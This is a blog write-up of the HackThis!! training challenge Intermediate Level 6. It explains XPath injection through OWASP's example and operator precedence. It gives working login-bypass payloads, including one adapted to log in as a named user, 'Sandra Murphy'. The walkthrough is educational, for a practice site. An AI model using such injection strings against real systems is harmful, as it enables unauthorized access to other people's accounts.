 ```yaml
---
layout: post
title:  "HackThis!! :: Intermediate :: Level 6"
date:   2016-05-09
---
```


[HackThis!! Intermediate](https://www.hackthis.co.uk/levels/Intermediate)

# Intermediate Level 6

![intermediate06-01](/assets/images/hackthis-intermediate/intermediate06-01.png)

No SQLi, check.  Hint?

![intermediate06-02](/assets/images/hackthis-intermediate/intermediate06-02.png)

The Pastebin contains an XML schema...

```
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:element name="users">
    <xs:complexType>
      <xs:sequence>
        <xs:element name="user">
          <xs:complexType>
            <xs:sequence>
              <xs:element type="xs:string" name="login"/>
              <xs:element type="xs:string" name="password"/>
              <xs:element type="xs:string" name="realname"/>
            </xs:sequence>
          </xs:complexType>
        </xs:element>
      </xs:sequence>
    </xs:complexType>
  </xs:element>
</xs:schema>
```

[XML injection ](https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OWASP-DV-008%29) seems like a good place to start but it doesn't quite fit the context. The top many results if you Google "XML injection login bypass" reference XPATH injection including the [OWASP XPath Injection Testing Guide](https://www.owasp.org/index.php/Testing_for_XPath_Injection_%28OTG-INPVAL-010%29), that sounds better.

OWASP sums it up nicely:

"Querying XML is done with XPath, a type of simple descriptive statement that allows the XML query to locate a piece of information. Like SQL, you can specify certain attributes to find, and patterns to match. When using XML for a web site it is common to accept some form of input on the query string to identify the content to locate and display on the page. This input must be sanitized to verify that it doesn't mess up the XPath query and return the wrong data." ([source](https://www.owasp.org/index.php/XPATH_Injection))

The sample implementation and exploit on the [OWASP page](https://www.owasp.org/index.php/XPATH_Injection) works on this level with a minor modification.

Assuming the application is coded in a very straightforward way, it might look like this:

```
FindUserXPath = "//Employee[UserName/text()='" & Request("Username") & "' And 
        Password/text()='" & Request("Password") & "']"
```

OWASP suggests the following attack and shows how the malformed input is parsed to modify the XPath.

```
Username: blah' or 1=1 or 'a'='a
Password: blah

FindUserXPath becomes //Employee[UserName/text()='blah' or 1=1 or 
        'a'='a' And Password/text()='blah']

Logically this is equivalent to:
        //Employee[(UserName/text()='blah' or 1=1) or 
        ('a'='a' And Password/text()='blah')]
```

The reason the last part is 'logically equivalent' to the previous is operator precedence in XPath, described [here](http://www.w3.org/TR/xpath/#booleans). AND has a higher precedence than OR. So,

```
//Employee[UserName/text()='blah' or 1=1 or 'a'='a' And Password/text()='blah']
```

becomes

```
//Employee[UserName/text()='blah' or 1=1 or ('a'='a' And Password/text()='blah')]
```

because AND is first. Left with three items to OR, they are evaluated left to right, so:

```
//Employee[(UserName/text()='blah' or 1=1) or ('a'='a' And Password/text()='blah')]
```

I think it's really cool that we inject `1=1` and also `a=a` into the username field but they end up contributing to different clauses in the statement.

Unfortunately this does not work!  It should match and return every username regardless of password input. Presumably this application is built to require a match on only a single record, or specifically that it match Sandra Murphy's account.

We'll use the same idea but swap out the `1=1` for an attempt to match the `realname` field (from the XML schema) to Sandra.

```
Username: blah' or realname/text()='Sandra Murphy' or 'a'='a
Password: blah
```

Assuming the same XPath expression as in the OWASP example, this will look like this:

```
//Employee[UserName/text()='blah' or realname/text()='Sandra Murphy' or 'a'='a' And Password/text()='blah']
```

Which, following the same steps to add parenthesis according to AND/OR operator precedence, is logically the following:

```
//Employee[UserName/text()='blah' or realname/text()='Sandra Murphy' or ('a'='a' And Password/text()='blah')]
```

```
//Employee[(UserName/text()='blah' or realname/text()='Sandra Murphy') or ('a'='a' And Password/text()='blah')]
```

Looks good. Construct a POST request with this username and password and send it along...

![intermediate06-03](/assets/images/hackthis-intermediate/intermediate06-03.png)

BOOM, success. Again, this works because the first clause passes on `realname` being Sandra Murphy, and the second clause passes on `a=a`.

![intermediate06-04](/assets/images/hackthis-intermediate/intermediate06-04.png)

